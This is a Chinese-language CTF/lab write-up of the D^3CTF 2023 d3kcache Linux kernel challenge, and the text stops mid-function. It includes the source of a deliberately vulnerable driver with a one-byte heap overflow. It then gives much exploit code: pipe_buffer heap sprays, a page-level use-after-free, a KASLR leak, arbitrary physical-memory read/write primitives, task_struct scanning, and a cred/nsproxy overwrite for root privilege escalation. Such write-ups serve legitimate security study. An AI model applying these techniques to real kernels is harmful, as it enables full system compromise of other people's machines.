# 【pwn4kernel】Kernel Heap Cross-Cache Overflow技术分析其二

## 1. 测试环境

**测试版本**：Linux-6.2.11 [内核镜像地址](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/6.2.11/01/bzImage)

笔者测试的内核版本是 `Linux (none) 6.2.11 #1 SMP PREEMPT_DYNAMIC Mon Jan 12 18:10:25 CST 2026 x86_64 GNU/Linux`。

**编译选项**：开启`CONFIG_CFI_CLANG`、`CONFIG_SLAB_FREELIST_RANDOM`、`CONFIG_SLAB_FREELIST_HARDENED`、`CONFIG_HARDENED_USERCOPY`、`CONFIG_USERFAULTFD`、`CONFIG_FUSE_FS`、`CONFIG_SLAB_MERGE_DEFAULT`、`CONFIG_SYSVIPC`、`CONFIG_KEYS`、`CONFIG_MEMCG`、`CONFIG_MEMCG_KMEM`、`CONFIG_STATIC_USERMODEHELPER`、`CONFIG_STACKPROTECTOR`、`CONFIG_STACKPROTECTOR_STRONG`、`CONFIG_SLUB`、`CONFIG_SLUB_DEBUG`、`CONFIG_E1000`、`CONFIG_E1000E`选项。完整配置参考[.config](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/6.2.11/01/.config)。

**保护机制**：KASLR/SMEP/SMAP/KPTI

**测试驱动程序**：本程序源自 **[D^3CTF2023 - d3kcache](https://github.com/arttnba3/D3CTF2023_d3kcache)** 内核挑战，旨在构建一个高对抗性的漏洞利用研究环境。其核心是在一个由`SLAB_ACCOUNT`标志创建的独立Slab缓存中，设计了一个精确的单字节堆缓冲区溢出漏洞。该设计通过强制性的缓存隔离，系统性地阻断了针对通用内核堆布局与元数据的传统利用路径，从而为评估在极端受限条件下的利用可行性确立了严格基准。研究表明，突破此隔离限制的关键在于**页级堆风水（Page-Level Heap Feng Shui）** 技术。该技术通过对底层**Buddy System**的页面分配与释放行为进行精密诱导和操控，能够可控地使内核内存分配器将存在漏洞的隔离对象与特定的、可利用的通用内核对象（如`pipe_buffer`结构体）放置在相邻的物理页上，从而实现**跨缓存溢出（Cross-Cache Overflow）**。这种可控的相邻布局，为将极其有限的溢出能力转化为包括**任意地址读**、**UAF（Use-After-Free）** 乃至最终**任意地址写**的完整特权提升链创造了条件。该驱动程序及其验证的利用路径证明，即使面对严格的Slab缓存隔离与微小的溢出窗口，通过对`Buddy System`等内存分配器底层行为的深度理解与诱导，利用依然能够成功。这为深入评估内核隔离机制的实际安全边界与“数据驱动利用”的潜力，提供了关键的实证案例。

驱动源码如下：

```c
/**
 * Copyright (c) 2026 BinRacer <native.lab@outlook.com>
 *
 * This work is licensed under the terms of the GNU GPL, version 2 or later.
 **/
// code base on D^3CTF 2023 - d3kcache
#include <linux/cdev.h>
#include <linux/device.h>
#include <linux/export.h>
#include <linux/fs.h>
#include <linux/gfp.h>
#include <linux/init.h>
#include <linux/kernel.h>
#include <linux/module.h>
#include <linux/printk.h>
#include <linux/ptrace.h>
#include <linux/sched.h>
#include <linux/slab.h>
#include <linux/spinlock.h>
#include <linux/uaccess.h>
#include <linux/version.h>

#define KCACHE_SIZE 2048
#define KCACHE_NUM 0x10

#define KCACHE_ALLOC 0x114
#define KCACHE_APPEND 0x514
#define KCACHE_READ 0x1919
#define KCACHE_FREE 0x810

struct kcache_t {
	size_t size;
	void *buf;
};

struct kcache_cmd_t {
	size_t idx;
	size_t size;
	void *buf;
};

static struct kmem_cache *d3kcache_jar = NULL;
static struct kcache_t kcache_list[KCACHE_NUM] = { 0 };

static unsigned int major;
static struct class *d3kcache_class;
static struct cdev d3kcache_cdev;
static spinlock_t d3kcache_lock;

static int d3kcache_open(struct inode *inode, struct file *filp)
{
	pr_info("[d3kcache:] Device open.\n");
	return 0;
}

static int d3kcache_release(struct inode *inode, struct file *filp)
{
	pr_info("[d3kcache:] Device release.\n");
	return 0;
}

static long d3kcache_ioctl(struct file *file, unsigned int cmd,
			   unsigned long arg)
{
	long ret = 0;
	size_t idx = 0;
	size_t size = 0;
	struct kcache_cmd_t kcache_cmd = { 0 };
	spin_lock(&d3kcache_lock);
	if (copy_from_user(&kcache_cmd, (struct kcache_cmd_t __user *)arg,
			   sizeof(struct kcache_cmd_t))) {
		pr_info("[d3kcache:] Error copy data ptr from user.\n");
		ret = -EFAULT;
		goto out;
	}
	idx = kcache_cmd.idx;
	size = kcache_cmd.size;
	if (cmd == KCACHE_ALLOC) {
		void *buf = NULL;
		if (idx < 0 || idx >= KCACHE_NUM) {
			pr_info("[d3kcache:] Invalid index to allocate.\n");
			ret = -EFAULT;
			goto out;
		}
		if (kcache_list[idx].buf) {
			pr_info("[d3kcache:] Index already in use.\n");
			ret = -EFAULT;
			goto out;
		}
		buf = kmem_cache_alloc(d3kcache_jar, GFP_KERNEL);
		if (!buf) {
			pr_info("[d3kcache:] Out of memory.\n");
			ret = -EFAULT;
			goto out;
		}
		if (size > KCACHE_SIZE) {
			size = KCACHE_SIZE;
		}
		if (copy_from_user(buf, (void __user *)kcache_cmd.buf, size)) {
			kmem_cache_free(d3kcache_jar, buf);
			pr_info("[d3kcache:] Error copy data from user.\n");
			ret = -EFAULT;
		}
		kcache_list[idx].size = size;
		kcache_list[idx].buf = buf;
	} else if (cmd == KCACHE_APPEND) {
		char *kcache_buf = NULL;
		if (idx < 0 || idx >= KCACHE_NUM || !kcache_list[idx].buf) {
			pr_info("[d3kcache:] Invalid index to write.\n");
			ret = -EFAULT;
			goto out;
		}
		if (size > KCACHE_SIZE
		    || (size + kcache_list[idx].size >= KCACHE_SIZE)) {
			size = KCACHE_SIZE - kcache_list[idx].size;
		}
		kcache_buf = (char *)kcache_list[idx].buf;
		kcache_buf += kcache_list[idx].size;
		if (copy_from_user
		    (kcache_buf, (void __user *)kcache_cmd.buf, size)) {
			pr_info("[d3kcache:] Error copy data from user.\n");
			ret = -EFAULT;
			goto out;
		}
		kcache_buf[size] = '\0';
	} else if (cmd == KCACHE_READ) {
		if (idx < 0 || idx >= KCACHE_NUM || !kcache_list[idx].buf) {
			pr_info("[d3kcache:] Invalid index to read.\n");
			ret = -EFAULT;
			goto out;
		}
		if (size > kcache_list[idx].size) {
			size = kcache_list[idx].size;
		}
		if (copy_to_user
		    ((void __user *)kcache_cmd.buf, kcache_list[idx].buf,
		     size)) {
			pr_info("[d3kcache:] Error copy data to user.\n");
			ret = -EFAULT;
		}
	} else if (cmd == KCACHE_FREE) {
		if (idx < 0 || idx >= KCACHE_NUM || !kcache_list[idx].buf) {
			pr_info("[d3kcache:] Invalid index to free.\n");
			ret = -EFAULT;
			goto out;
		}
		kmem_cache_free(d3kcache_jar, kcache_list[idx].buf);
		kcache_list[idx].buf = NULL;
		kcache_list[idx].size = 0;
	} else {
		pr_info("[d3kcache:] Unknown ioctl cmd!\n");
		ret = -EINVAL;
	}
out:
	spin_unlock(&d3kcache_lock);
	return ret;
}

struct file_operations d3kcache_fops = {
	.owner = THIS_MODULE,
	.open = d3kcache_open,
	.release = d3kcache_release,
	.unlocked_ioctl = d3kcache_ioctl,
};

static int __init init_d3kcache(void)
{
	struct device *d3kcache_device;
	int error;
	dev_t devt = 0;

	error = alloc_chrdev_region(&devt, 0, 1, "d3kcache");
	if (error < 0) {
		pr_err("[d3kcache:] Can't get major number!\n");
		return error;
	}
	major = MAJOR(devt);
	pr_info("[d3kcache:] d3kcache major number = %d.\n", major);

	d3kcache_class = class_create(THIS_MODULE, "d3kcache_class");
	if (IS_ERR(d3kcache_class)) {
		pr_err("[d3kcache:] Error creating d3kcache class!\n");
		unregister_chrdev_region(MKDEV(major, 0), 1);
		return PTR_ERR(d3kcache_class);
	}

	cdev_init(&d3kcache_cdev, &d3kcache_fops);
	d3kcache_cdev.owner = THIS_MODULE;
	cdev_add(&d3kcache_cdev, devt, 1);
	d3kcache_device =
	    device_create(d3kcache_class, NULL, devt, NULL, "d3kcache");
	if (IS_ERR(d3kcache_device)) {
		pr_err("[d3kcache:] Error creating d3kcache device!\n");
		class_destroy(d3kcache_class);
		unregister_chrdev_region(devt, 1);
		return -1;
	}
	spin_lock_init(&d3kcache_lock);
	d3kcache_jar =
	    kmem_cache_create_usercopy("d3kcache_jar", KCACHE_SIZE, 0,
				       SLAB_HWCACHE_ALIGN | SLAB_PANIC |
				       SLAB_ACCOUNT, 0, KCACHE_SIZE, NULL);
	if (!d3kcache_jar) {
		pr_info("[d3kcache:] d3kcache_jar create failed.\n");
		return -ENOMEM;
	}
	pr_info("[d3kcache:] d3kcache module loaded.\n");
	return 0;
}

static void __exit exit_d3kcache(void)
{
	if (d3kcache_jar) {
		kmem_cache_destroy(d3kcache_jar);
		pr_info("[d3kcache:] d3kcache_jar slab cache destroyed.\n");
	}
	unregister_chrdev_region(MKDEV(major, 0), 1);
	device_destroy(d3kcache_class, MKDEV(major, 0));
	cdev_del(&d3kcache_cdev);
	class_destroy(d3kcache_class);
	pr_info("[d3kcache:] d3kcache module unloaded.\n");
}

module_init(init_d3kcache);
module_exit(exit_d3kcache);
MODULE_AUTHOR("BinRacer");
MODULE_LICENSE("GPL v2");
MODULE_DESCRIPTION("Welcome to the pwn4kernel challenge!");
```

## 2. 漏洞机制

### 2-1. 模块功能与数据结构概述

本驱动模块实现一个字符设备，提供四种控制命令用于管理固定大小的缓存对象。模块通过slab分配器创建独立的缓存池，并采用自旋锁保护共享数据结构，确保并发访问的安全性。

#### 2-1-1. 数据结构定义

模块定义了两个核心数据结构，用于管理缓存对象和用户-内核通信：

```c
struct kcache_t {
    size_t size;     // 当前缓存对象中有效数据长度
    void *buf;       // 指向slab缓存对象的指针
};

struct kcache_cmd_t {
    size_t idx;      // 缓存对象在全局数组中的索引
    size_t size;     // 用户请求操作的数据大小
    void *buf;       // 用户空间缓冲区指针
};
```

#### 2-1-2. 全局状态与初始化

模块初始化时创建独立的slab缓存，相关全局变量如下：

```c
static struct kmem_cache *d3kcache_jar = NULL;          // slab缓存句柄
static struct kcache_t kcache_list[KCACHE_NUM] = {0};   // 全局缓存对象数组
static spinlock_t d3kcache_lock;                        // 并发访问保护锁
```

缓存创建时指定了关键参数：

- 对象大小：2048字节，对应order-3物理页面
- 缓存标志：`SLAB_ACCOUNT`，启用独立内存核算
- 缓存数量：最多16个活跃对象（`KCACHE_NUM=0x10`）


```mermaid
graph TD
    A[驱动加载] --> B[创建d3kcache_jar slab缓存];
    B --> C[对象尺寸: 2048字节];
    B --> D[缓存标志: SLAB_ACCOUNT];
    B --> E[最大对象数: 16];
    C --> F[物理内存需求: 半页];
    D --> G[独立内存隔离];
    E --> H[操作窗口限制];
```

### 2-2. 命令功能解析

模块通过`d3kcache_ioctl`函数处理四种控制命令，所有操作均在自旋锁保护下执行，确保原子性。

#### 2-2-1. 分配缓存对象

```c
if (cmd == KCACHE_ALLOC) {
    void *buf = kmem_cache_alloc(d3kcache_jar, GFP_KERNEL);
    if (!buf) {
        ret = -EFAULT;
        goto out;
    }
    if (size > KCACHE_SIZE) size = KCACHE_SIZE;
    if (copy_from_user(buf, (void __user *)kcache_cmd.buf, size)) {
        kmem_cache_free(d3kcache_jar, buf);
        ret = -EFAULT;
    }
    kcache_list[idx].size = size;
    kcache_list[idx].buf = buf;
}
```

**功能说明**：在指定索引位置分配一个2048字节的slab对象，并从用户空间复制初始数据。分配前检查索引有效性和对象可用性，复制失败时立即释放内存。

**限制条件**：

- 索引范围：0 ≤ idx < 16
- 最大复制长度：KCACHE_SIZE(2048)字节
- 失败回滚：复制失败时释放已分配对象

#### 2-2-2. 向缓存对象追加数据

```c
if (cmd == KCACHE_APPEND) {
    char *kcache_buf = (char *)kcache_list[idx].buf;
    kcache_buf += kcache_list[idx].size;  // 定位到当前数据末尾

    if (copy_from_user(kcache_buf, (void __user *)kcache_cmd.buf, size)) {
        ret = -EFAULT;
        goto out;
    }
    kcache_buf[size] = '\0';  // 关键：单字节溢出点
}
```

**边界计算**：设当前数据长度为$$L_{curr}$$，追加数据长度为$$L_{append}$$，缓冲区总容量为$$C=2048$$。当满足$$L_{curr} + L_{append} = C$$时，写入位置为：

$$
P_{write} = B_{base} + L_{curr} + L_{append} = B_{base} + C
$$

此时`kcache_buf[size]`访问偏移$$C$$处，即第2049字节，造成**单字节溢出**。

**漏洞本质**：边界检查存在逻辑缺陷，允许在缓冲区完全填满时追加数据并写入终止符。写入操作越过对象边界1字节，污染相邻内存区域。

#### 2-2-3. 读取缓存对象数据

```c
if (cmd == KCACHE_READ) {
    if (copy_to_user((void __user *)kcache_cmd.buf,
                     kcache_list[idx].buf, size)) {
        ret = -EFAULT;
    }
}
```

**功能说明**：将指定缓存对象的内容复制到用户空间缓冲区。读取长度受原始分配数据大小限制，确保不越界访问。

#### 2-2-4. 释放缓存对象

```c
if (cmd == KCACHE_FREE) {
    kmem_cache_free(d3kcache_jar, kcache_list[idx].buf);
    kcache_list[idx].buf = NULL;
    kcache_list[idx].size = 0;
}
```

**功能说明**：释放指定索引的缓存对象，将其返回给slab分配器，并清空全局数组中的对应条目。

### 2-3. 溢出漏洞的物理效应

`KCACHE_APPEND`命令中的单字节溢出发生在对象末尾边界。当用户数据恰好填满2048字节缓存时，`kcache_buf[size] = '\0'`语句在第2049字节处写入零值。

**关键约束条件**：

- 对象尺寸2048字节占用半页，在order-3页面中可密集排列
- `SLAB_ACCOUNT`标志使缓存独立于通用slab，增加布局精确性要求
- 最多16个活跃对象限制操作窗口，需精细管理对象生命周期

**内存布局影响**：在slab分配器中，同缓存对象连续排列。溢出字节将污染相邻对象的首字节，其具体效应取决于相邻对象的类型和内存布局。


```mermaid
mindmap
  root(溢出漏洞约束体系)
    (尺寸约束)
      --> 固定2048字节对象
      --> 对应半物理页面
      --> Order-3页面切割
    (数量约束)
      --> 最多16个活跃对象
      --> 有限操作窗口
      --> 需精细生命周期管理
    (隔离约束)
      --> SLAB_ACCOUNT独立核算
      --> 与通用缓存隔离
      --> 增加布局确定性
    (并发约束)
      --> 自旋锁保护
      --> 原子操作保证
      --> 无竞争条件
```

### 2-4. 物理内存布局策略

为将溢出效应导向特定目标结构，需构造确定的物理内存邻接关系。本方案选择`pipe_buffer`结构体作为溢出目标，通过三层堆喷策略实现精确布局。

**页面消耗计算**：
单个2048字节对象占用物理内存计算为：

$$
M_{object} = 2048 \text{ bytes} = 0.5 \times 4096 = 0.5 \text{页}
$$

在order-3页面（8个连续物理页，32KB）中可容纳对象数量为：

$$
N_{objects} = \frac{8 \text{页}}{0.5 \text{页/对象}} = 16 \text{个对象}
$$

**三层堆喷策略**：

1. **第一次堆喷（kmalloc-4k / order-3）**：

    ```c
    resize_pipe_buffer(i, 0x1000 * 64);  // 256KB缓冲区
    ```

    创建大量管道缓冲区，迫使内核在`kmalloc-4k`缓存分配`pipe_buffer`数组。这些order-3页面与`d3kcache_jar`对象的物理页面相邻，为溢出提供目标。

2. **布局优化**：
    - 通过`setsockopt`等系统调用大量分配order-3页面，消耗物理内存连续区域
    - 在消耗的页面中交替分配`d3kcache_jar`对象与`pipe_buffer`结构体
    - 通过大量分配提高目标结构相邻布局的概率

3. **概率控制**：
   设分配尝试次数为$$N_{attempt}$$，成功邻接概率为$$P_{adjacent}$$，则达到置信水平$$\alpha$$所需尝试次数为：

    $$
    N_{required} = \frac{\log(1-\alpha)}{\log(1-P_{adjacent})}
    $$

    通过大量尝试，可将邻接概率提升至接近确定性水平。


```mermaid
graph TD
    subgraph "物理内存三层布局"
        A[内存分配策略] --> B[第一次堆喷: kmalloc-4k];
        A --> C[d3kcache_jar对象分配];
        A --> D[目标: 物理页面相邻];

        B --> E[order-3页面];
        C --> F[order-3半页];

        E --> G[与目标对象相邻布局];
        F --> G;
    end

    subgraph "页面内交替布局"
        H[order-3页面] --> I[d3kcache对象];
        H --> J[pipe_buffer数组];
        H --> K[d3kcache对象];
        H --> L[pipe_buffer数组];
    end

    style J fill:#bbdefb,stroke:#1976d2
    style K fill:#ffcdd2,stroke:#d32f2f
```

### 2-5. 溢出利用的物理转换

溢出字节（`0x00`）覆盖相邻`pipe_buffer`结构体的`page`指针最低字节，引发物理内存语义转换。

**指针格式解析**：
`pipe_buffer->page`指针存储物理页帧地址，典型格式为：

$$
P_{page} = \text{0xFFFFxxxxyyyyyyZZ}
$$

其中：

- 高32位`0xFFFFxxxx`：固定标识位
- 中间24位`yyyyyy`：物理页帧号高位
- 低8位`ZZ`：页内512字节对齐偏移，值域$$\text{(0x00~0xC0)}$$

**归零操作效应**：
溢出操作将指针低8位清零：

$$
P_{page}' = P_{page} \land \text{0xFFFFFFFFFFFFFF00} = \text{0xFFFFxxxxyyyyyy00}
$$

**共享态建立**：两个原本指向不同物理页的`pipe_buffer`经此转换后指向同一物理页起始位置，建立非对称页面共享。

**数学描述**：
设原始指针分别为：

$$
\begin{aligned}
P_A &= \text{FFFFxxxxyyyyyyC0} \quad\text{(控制页内偏移C0区域)} \\
P_B &= \text{FFFFxxxxzzzzzz00} \quad\text{(控制页内偏移00区域)}
\end{aligned}
$$

溢出后指针变为：

$$
\begin{aligned}
P_A' &= P_A \quad\text{(保持不变)} \\
P_B' &= \text{0xFFFFxxxxyyyyyy00} \quad\text{(重定向至P_A所在页)}
\end{aligned}
$$

**非对称共享特征**：

- 主控管道：保持原始偏移$$C0$$，控制页内特定区域
- 受害管道：重定向至页起始$$00$$偏移，控制页首区域
- 共享结果：双管道共享单物理页，但控制不同区域，形成脆弱平衡态

### 2-6. 共享检测与状态转换

为识别溢出建立的共享关系，需实施精准的检测机制。本方案采用双分区标记体系，支持多阶段重叠检测。

#### 2-6-1. 标记体系设计

每个管道数据区预设两套独立标记：

```c
// 前部标记：位于数据区0-15字节，用于首次检测
pipe_buffer_data[0] = 0x72656361526e6942;  // 魔数"BinRacer"
pipe_buffer_data[1] = pipe_index;          // 管道索引

// 后部标记：位于数据区192-207字节，用于二次检测
pipe_buffer_data[192/8] = 0x72656361526e6942;    // 相同魔数
pipe_buffer_data[(192/8)+1] = pipe_index;        // 相同索引
```

**设计原理**：前部标记易受溢出波及，用于检测初始共享；后部标记深埋数据区，在二次重叠时仍可保持完整，提供独立检测基准。

#### 2-6-2. 重叠检测算法

检测流程通过读取`pipe_buffer->page`结构体区域，验证标记一致性实现：

```c
int detect_overlap_pipes(int *victim_idx, int *overlap_idx) {
    char buffer[PIPE_BUFFER_SIZE];

    for (int i = 0; i < MAX_PIPES; i++) {
        memset(buffer, 0, PIPE_BUFFER_SIZE);
        read(pipe_fds[i][0], buffer, PIPE_BUFFER_SIZE);

        // 验证魔数并检查索引异常
        uint64_t magic = *(uint64_t*)buffer;
        uint64_t index = *(uint64_t*)(buffer + 8);

        if (magic == 0x72656361526e6942 && index != i) {
            *victim_idx = index;  // 被覆盖的原始管道
            *overlap_idx = i;     // 控制管道
            return 0;  // 检测成功
        }
    }
    return -1;  // 未检测到重叠
}
```

**检测逻辑**：当读取到的魔数正确但索引与当前管道不匹配时，表明当前`pipe_buffer`结构体与另一管道的数据区发生内存重叠。原始管道索引标识受害者，当前管道索引标识控制者。

#### 2-6-3. 状态转换操作

检测到共享对后，执行状态转换操作，将被动溢出转为主动控制：

1. **释放受害管道**：

```c
close(pipe_fds[victim_idx][0]);
close(pipe_fds[victim_idx][1]);
```

释放操作将共享物理页归还Buddy分配器的order-0空闲链表。由于控制管道保留`page`指针引用，形成**页面级释放后使用**状态。

2. **第二次堆喷抢占（kmalloc-192）**：

```c
for (int i = 0; i < MAX_PIPES; i++) {
    if (i == victim_idx || i == overlap_idx) continue;
    resize_pipe_buffer(i, 0x1000 * 4);  // 触发kmalloc-192分配
}
```

调整管道缓冲区大小迫使内核在`kmalloc-192`缓存分配新的`pipe_buffer`数组。由于刚释放的order-0页处于空闲状态，新分配对象优先占用该页，使悬空指针指向活跃内核对象。

3. **一级控制链建立**：
   控制管道的悬空`page`指针与新入驻的`kmalloc-192`对象共享物理页，获得对其内容的读写权限，形成稳定控制链。


```mermaid
flowchart TD
    A[初始共享态] --> B[管道A与管道B共享物理页P];
    B --> C[释放管道B];
    C --> D[页面P回归Buddy空闲列表];
    D --> E[管道A悬空引用页面P];
    E --> F[第二次堆喷: kmalloc-192];
    F --> G[新pipe_buffer数组入驻页面P];
    G --> H[管道A可读写新对象];
    H --> I[一级控制链建立];

    style B fill:#e8f4fd,stroke:#1976d2
    style I fill:#bbdefb,stroke:#1976d2,stroke-width:2px
```

### 2-7. 控制链扩展与闭环构造

一级控制链提供基础内存操作能力，通过扩展可构建更强大的控制原语。

#### 2-7-1. 内核地址泄露

从控制管道读取`pipe_buffer`元数据，可获取内核符号地址，绕过KASLR：

```c
uint64_t ops_ptr = pipe_buffer_data[2];  // 读取pipe_buffer->ops
uint64_t kernel_offset = ops_ptr - ANON_PIPE_BUF_OPS;
uint64_t kernel_base += kernel_offset;
```

**地址计算**：`anon_pipe_buf_ops`是内核静态符号，其与内核基址的偏移固定。通过泄露的实际地址反推KASLR偏移，建立完整的内核虚拟地址坐标系。

#### 2-7-2. 二次重叠制造

主动修改控制管道的`page`指针，制造新的重叠关系：

```c
struct pipe_buffer fake_buf = {0};
memcpy(&fake_buf, &leaked_buf, sizeof(fake_buf));
fake_buf.page = (struct page*)((uint64_t)page_ptr & (~0xff));  // 页面对齐
write(pipe_fds[overlap_idx][1], &fake_buf, PIPE_BUFFER_SIZE);
```

**对齐操作**：清空`page`指针低8位，强制4KB页面对齐。对齐后的指针大概率与其他管道的原始物理页重合，人为制造二次重叠，扩大控制面。

#### 2-7-3. 二级控制链建立

检测到二次重叠对后，重复状态转换操作：

1. **释放第二次受害管道**：

```c
close(pipe_fds[second_victim_idx][0]);
close(pipe_fds[second_victim_idx][1]);
```

2. **第三次堆喷抢占（kmalloc-96）**：

```c
for (int i = 0; i < MAX_PIPES; i++) {
    if (i == victim_idx || i == overlap_idx ||
        i == second_victim_idx || i == second_overlap_idx) continue;
    resize_pipe_buffer(i, 0x1000 * 2);  // 触发kmalloc-96分配
}
```

`kmalloc-96`对象抢占释放的order-0页，形成二级控制链。此阶段使用更小尺寸对象，提高页面内对象密度，为三节点闭环创造有利条件。

#### 2-7-4. 三节点闭环构造

在单物理页内定位三个`pipe_buffer`结构体，构建循环控制环。设物理页$$P$$内三个结构体偏移分别为$$O_2, O_3, O_4$$，对应管道索引$$I_2, I_3, I_4$$。

**互控关系配置**：

```c
// 节点I2配置节点I3指向偏移O4
secondary_fake_pipe_buf.offset = O_4;
write(pipe_fds[I_2][1], &secondary_fake_pipe_buf, PIPE_BUFFER_SIZE);

// 节点I3配置节点I4指向偏移O2
secondary_fake_pipe_buf.offset = O_2;
write(pipe_fds[I_3][1], &secondary_fake_pipe_buf, PIPE_BUFFER_SIZE);

// 节点I4配置节点I2指向目标地址，并还原节点I3状态
secondary_fake_pipe_buf.offset = O_3;
write(pipe_fds[I_4][1], &secondary_fake_pipe_buf, PIPE_BUFFER_SIZE);
```

**拓扑方程描述**：
设$$f(X, Y, O)$$表示管道$$X$$写入操作，将管道$$Y$$的`pipe_buffer`配置为指向偏移$$O$$。则闭环满足：

$$
\begin{cases}
f(I_2, I_3, O_4) & \text{节点I2配置节点I3} \\
f(I_3, I_4, O_2) & \text{节点I3配置节点I4} \\
f(I_4, I_2, A_{target}) & \text{节点I4配置节点I2指向目标地址} \\
f(I_4, I_3, O_3) & \text{节点I4还原节点I3状态}
\end{cases}
$$

其中$$A_{target}$$为任意目标物理地址偏移。


```mermaid
graph LR
    P2[链节2 I₂<br/>读写载体] -->|read/write| MEM[物理内存];

    P3[链节3 I₃<br/>配置中介] -->|配置| P4[链节4 I₄<br/>闭环枢纽];
    P4 -->|重定向| P2;
    P4 -.->|状态还原| P3;

    style P2 fill:#bbdefb,stroke:#1976d2,stroke-width:2px
    style P3 fill:#c8e6c9,stroke:#388e3c,stroke-width:2px
    style P4 fill:#f3e5f5,stroke:#7b1fa2,stroke-width:2px
```

**闭环特性**：

- 稳定性：三节点互相依赖，形成自维持拓扑
- 可复位性：每次操作后恢复初始状态，支持重复使用
- 透明性：对用户表现为普通管道I/O操作

### 2-8. 物理内存操作原语

基于三节点闭环构造，实现任意物理内存读写原语。原语将管道操作透明重定向到目标物理地址，无需用户感知底层细节。

#### 2-8-1. 物理读原语实现

```c
void phys_mem_read(uint64_t target_page, uint32_t page_offset,
                   void *output_buf, size_t read_len) {
    struct pipe_buffer redirect_buf = {0};

    // 阶段1：配置节点I4修改节点I2指向目标地址
    redirect_buf.page = (struct page*)target_page;
    redirect_buf.offset = page_offset;
    redirect_buf.len = 0xfff;  // 设置最大可读长度
    write(pipe_fds[I_4][1], &redirect_buf, PIPE_BUFFER_SIZE);

    // 阶段2：通过节点I2读取目标物理内存
    read(pipe_fds[I_2][0], output_buf, read_len);

    // 阶段3：恢复节点I3状态，维持闭环
    redirect_buf.offset = O_3;
    write(pipe_fds[I_4][1], &redirect_buf, PIPE_BUFFER_SIZE);
}
```

**数据流向**：用户调用读操作→节点I4重定向节点I2→节点I2读取目标物理地址→数据经管道返回用户空间。

#### 2-8-2. 物理写原语实现

写原语与读原语对称，区别在于数据流向：

```c
void phys_mem_write(uint64_t target_page, uint32_t page_offset,
                    void *input_buf, size_t write_len) {
    struct pipe_buffer redirect_buf = {0};

    // 配置重定向（同读原语）
    redirect_buf.page = (struct page*)target_page;
    redirect_buf.offset = page_offset;
    redirect_buf.len = 0xfff;
    write(pipe_fds[I_4][1], &redirect_buf, PIPE_BUFFER_SIZE);

    // 通过节点I2写入数据到目标物理地址
    write(pipe_fds[I_2][1], input_buf, write_len);

    // 恢复状态
    redirect_buf.offset = O_3;
    write(pipe_fds[I_4][1], &redirect_buf, PIPE_BUFFER_SIZE);
}
```

**数据流向**：用户提供数据→节点I4重定向节点I2→节点I2写入目标物理地址→数据直达物理内存。

#### 2-8-3. 原语特性分析

| 特性       | 描述                                       | 技术意义                                     |
| ---------- | ------------------------------------------ | -------------------------------------------- |
| **透明性** | 用户如同操作普通管道，无需感知物理地址细节 | 简化上层利用逻辑，降低使用复杂度             |
| **原子性** | 每次操作独立配置和恢复状态，无残留影响     | 提高操作可靠性，避免状态污染                 |
| **通用性** | 支持任意物理地址和长度（受管道缓冲区限制） | 可访问内核态、用户态、设备映射等所有物理区域 |
| **隐蔽性** | 不触发缺页异常、权限检查等虚拟层事件       | 在系统日志中表现为普通管道I/O，难以检测      |
| **确定性** | 基于几何拓扑而非时序竞争，结果可预测       | 提高利用成功率，降低环境依赖性               |

**数学表示**：设原语操作为函数$$F_{op}$$，目标地址为$$A_{phys}$$，数据为$$D$$，则：

$$
F_{read}(A_{phys}) \rightarrow D \quad\text{（读操作）}
$$

$$
F_{write}(A_{phys}, D) \rightarrow \text{成功} \quad\text{（写操作）}
$$

### 2-9. 内存勘探与上下文重构

拥有物理内存操作能力后，可执行系统级内存勘探，定位关键数据结构并实施上下文切换。

#### 2-9-1. vmemmap区域定位

`vmemmap`是内核管理物理页帧的虚拟地址区域，每个物理页对应一个`struct page`。通过已知`page`指针可推导其基址：

```c
uint64_t discover_vmemmap_base(uint64_t known_page_ptr) {
    uint64_t vmemmap_base = known_page_ptr & 0xfffffffff0000000;

    for (int i = 0; i < MAX_SCAN_ROUNDS; i++) {
        uint64_t candidate[4] = {0};
        // 扫描候选区域，寻找内核启动函数特征
        phys_mem_read(vmemmap_base + 0x2740, 0, candidate, 32);

        if (candidate[0] > kernel_base &&
            (candidate[0] & 0xfff) == (SECONDARY_STARTUP_64 & 0xfff)) {
            return vmemmap_base;  // 定位成功
        }
        vmemmap_base -= 0x10000000;  // 以256MB步长向后扫描
    }
    return 0;  // 扫描失败
}
```

**扫描策略**：从已知`page`指针推导的基址开始，以256MB为步长向后扫描，匹配`secondary_startup_64`函数的固定特征（低12位不变）。梯度下降法适应不同内核版本和配置。

#### 2-9-2. task_struct结构定位

通过物理内存扫描定位当前进程和根进程的`task_struct`结构：

```c
int locate_task_structures(uint64_t *current_task_page, uint64_t *root_cred) {
    char page_buffer[4096];

    // 设置当前进程标识
    prctl(PR_SET_NAME, "pwn4kernel");

    for (uint64_t page = vmemmap_base; ; page += 0x40) {
        memset(page_buffer, 0, 4096);
        phys_mem_read(page, 0, page_buffer, 0xf00);

        // 在当前页搜索进程标识
        uint64_t *comm_ptr = memmem(page_buffer, 0xf00, "pwn4kernel", 10);
        if (!comm_ptr) continue;

        // 验证关键指针字段
        if (comm_ptr[-2] > 0xffff888000000000 &&  // cred指针
            comm_ptr[-3] > 0xffff888000000000 &&  // real_cred指针
            comm_ptr[-57] > 0xffff888000000000 && // real_parent指针
            comm_ptr[-56] > 0xffff888000000000) { // parent指针

            *current_task_page = page;
            *root_cred = comm_ptr[-2];  // 记录根凭证指针
            return 0;  // 定位成功
        }
    }
    return -1;  // 定位失败
}
```

**字段偏移验证**：以`comm`字段（偏移`0x4a8`）为基准，验证周边关键指针的合理性：

- `cred`（偏移`0xb60`）：进程凭证指针
- `real_cred`（偏移`0xb58`）：实际凭证指针
- `parent`（偏移`0x9b0`）：父进程指针
- `ptraced`（偏移`0x9e0`）：被跟踪状态指针

**多锚点校验**：同时验证多个指针字段，确保结构完整性，避免误匹配。

#### 2-9-3. 上下文重构操作

定位目标结构后，在物理内存层面执行上下文切换：

```c
void escalate_privileges(uint64_t task_page, uint64_t root_cred_addr,
                         uint64_t root_nsproxy_addr) {
    char task_copy[4096];

    // 读取完整的task_struct物理页
    phys_mem_read(task_page, 0, task_copy, 0xf00);

    // 定位comm字段
    uint64_t *comm_ptr = memmem(task_copy, 0xf00, "pwn4kernel", 10);
    if (!comm_ptr) return;

    // 物理层指针替换
    comm_ptr[-1] = root_cred_addr;     // task->cred = root_cred
    comm_ptr[-2] = root_cred_addr;     // task->real_cred = root_cred
    comm_ptr[6] = root_nsproxy_addr;   // task->nsproxy = root_nsproxy

    // 将修改写回物理内存
